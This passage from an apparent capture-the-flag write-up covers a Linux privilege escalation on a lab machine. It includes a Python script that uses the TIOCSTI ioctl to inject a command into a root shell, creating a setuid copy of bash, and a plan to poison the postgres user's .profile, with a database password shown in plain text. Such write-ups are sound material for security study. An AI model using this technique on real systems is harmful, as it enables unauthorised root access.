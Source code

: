 It stops the current process (the low priv shell), returning focus to the parent (the root shell). Then it send characters via the ioctl one by one so that they type into the shell the command and then a newline. `0` is the file descriptor for STDIN, and `TIOCSTI` is the ioctl that allows this write.

#### Poison .profile

`.bashrc`, `.profile`, and `.bash_login` all seem like potential files to poison. For some reason, I was able to get this to work with the latter two, but not with `.bashrc`. It’s also important to note that the way the bot runs is to delete all the files in the postgres user’s home directory (presumably to prevent players spoiling for each other), wait 60 seconds, run the code to trigger the exploit, wait 30 seconds, and start again. This means that if I write into postgres’ home directory during that latter 30 seconds, the file will be deleted before the exploit can be triggered.

I’ll create an exploit script at `/dev/shm/poc.py`:

```
#!/usr/bin/env python3
import fcntl
import termios
import os
import sys
import signal

os.kill(os.getppid(), signal.SIGSTOP)

for char in 'cp /bin/bash /tmp/0xdf; chmod 6777 /tmp/0xdf\n':
    fcntl.ioctl(0, termios.TIOCSTI, char)

```

This is like the POC, except my command is just to make a copy of `bash` as `/tmp/0xdf` and make it SetUID / setGID to run as root.

I need a way to write to the `.bashrc` file in the postgres user’s home directory. The home directory is `/var/lib/postgresql`. I can’t write there directly as wesley:

```
wesley@download:~$ echo -e "\n\npython /dev/shm/poc.py\n" >> /var/lib/postgresql/.profile
-bash: /var/lib/postgresql/.bashrc: Permission denied

```

I’ll have to write from the database. I’ll connect with the password “CoconutPineappleWatermelon”:

```
wesley@download:~$ psql -h 127.0.0.1 -U download download
Password for user download:
psql (12.15 (Ubuntu 12.15-0ubuntu0.20.04.1))
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
Type "help" for help.

download=>

```
